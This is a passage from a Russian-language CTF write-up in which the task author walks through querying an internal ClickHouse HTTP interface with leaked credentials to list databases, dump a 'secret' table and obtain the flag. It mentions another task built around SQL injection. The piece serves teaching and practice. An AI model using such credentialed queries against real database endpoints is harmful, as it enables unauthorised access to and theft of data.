 Говорит, надо аутхаться, а креды у нас уже есть, в той же страничке про http-интерфейс клика есть и про аутентификацию, у нас два варианта:
```
http://app_user:N7p3uK1w1ZNYNKdg9joKdptILCnjFSCM@172.20.0.7:8123?query=select+version()
http://172.20.0.7:8123?user=app_user&password=N7p3uK1w1ZNYNKdg9joKdptILCnjFSCM&query=select+version()
```

Делайте как удобнее, мне нравится второй вариант, отвечаем без ошибок:
```
24.8.8.17
```

Теперь пришло время изучать, что же там внутри (сначала опять придется читать, теперь про синтаксис клика)

Смотрим список доступных нашему кровью и потом добытому пользователю:
```
http://172.20.0.7:8123?user=app_user&password=N7p3uK1w1ZNYNKdg9joKdptILCnjFSCM&query=show+databases
```

Ответ:
```
secret
```

Смотрим список таблиц в БД `secret`:
```
http://172.20.0.7:8123?user=app_user&password=N7p3uK1w1ZNYNKdg9joKdptILCnjFSCM&query=show+tables+from+secret
```

Ответ:
```
data
```

Читаем все, что есть в этой таблице:
```
http://172.20.0.7:8123?user=app_user&password=N7p3uK1w1ZNYNKdg9joKdptILCnjFSCM&query=select+*+from+secret.data
```

Получаем флаг:
```
UCTF{qUN2SQEAfaulmPUe2FLNGH4FjlJHf5Al}
```
## kurona
Тут без пока райтапа, только скажу, что там заложена уязвимость SQL-инъекции (мб потом залью, а так это таска для желающих проверить себя)
# afterword
Делая эти задачи, я пытался воссоздать более-менее реальные кейсы приложений, поэтому в описаниях не было подсказок (с каждым годом все сложнее писать такой уязвимый код, будущее за уязвимостями в логике, может, в след раз принесу что-то прикольное), но по факту хоть как-то близок к реальности только `kunigami`

Задачи были рассчитаны для ребят разных курсов, чтобы новичкам не было слишком тяжело, а опытным - не так скучно. Так что никогда не расстраивайтесь, когда какой-либо таск не получается решить - это ваш шанс узнать что-то новое

Скринов нет, чтобы вам было интереснее протыкать самим
